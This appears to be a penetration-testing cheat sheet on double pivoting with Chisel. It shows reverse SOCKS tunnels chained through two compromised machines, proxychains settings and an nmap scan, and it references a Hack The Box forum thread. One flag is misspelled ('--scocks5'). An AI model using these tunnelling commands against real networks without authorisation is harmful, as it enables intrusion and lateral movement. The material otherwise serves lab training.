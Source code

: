 # Chisel - Double Pivoting

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Attacker Machine

```
./chisel server -p 3333 --reverse


# Edit proxychains4.conf
sudo nano /etc/proxychains4.conf

Add -> socks5 127.0.0.1 1111
Add -> socks5 127.0.0.1 5555
```

## Second Machine (M 1)

```
./chisel32 server -p 2222 --reverse --scocks5 


# After completing steps on all the machines
./chisel32 client <server ip>:3333 R:1111:socks
```

## Third Machine (M 2)

```
./chisel32 client <second machine ip>:2222 R:5555:socks
```

## Scan Fourth Machine (M 3)

```
proxychains nmap -sT -p 22 <m3 machine ip>
```

##

## REFERENCES

* [https://forum.hackthebox.com/t/attacking-enterprise-networks-double-pivot-using-chisel/267043](https://forum.hackthebox.com/t/attacking-enterprise-networks-double-pivot-using-chisel/267043)&#x20;

